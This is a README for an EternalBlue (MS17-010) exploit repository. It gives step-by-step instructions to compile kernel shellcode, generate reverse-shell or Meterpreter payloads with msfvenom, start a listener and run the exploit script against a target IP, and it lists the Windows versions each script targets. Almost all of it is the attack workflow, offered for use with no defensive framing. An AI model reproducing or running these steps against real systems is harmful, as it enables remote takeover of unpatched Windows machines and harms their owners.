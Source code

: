 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

This has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64) 

However the exploit included in this repo also includes the Windows 8/Server 2012 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010

## Targets:

eternalblue_exploit7.py:
```
Windows Server 2008 & R2
Windows Server 2012 & R2 (x86)
Windows Server 2016 (x64)
Windows Vista
Windows 7
```

eternalblue_exploit8.py:
```
Windows 2012 R2 x64
Windows 8.1 x64
Windows 10 Pro Build 10240 x64
```

eternalblue_exploit10.py:
```
Windows 2012 R2 x64
Windows 8.1 x64
Windows 10 Pro Build 10240 x64
```

## Generate Shellcode (Manually):

Assemble kernel shellcode with nasm:
```
nasm -f bin shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
```
Generate a binary payload with venom:
```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.123 --platform windows -a x86 -f raw -o sc_x86_payload.bin
Saved as: sc_x86_payload.bin
```
Concentrate it:
```
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
```



## Merging binaries(x86 and x86_64):
```
python shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```



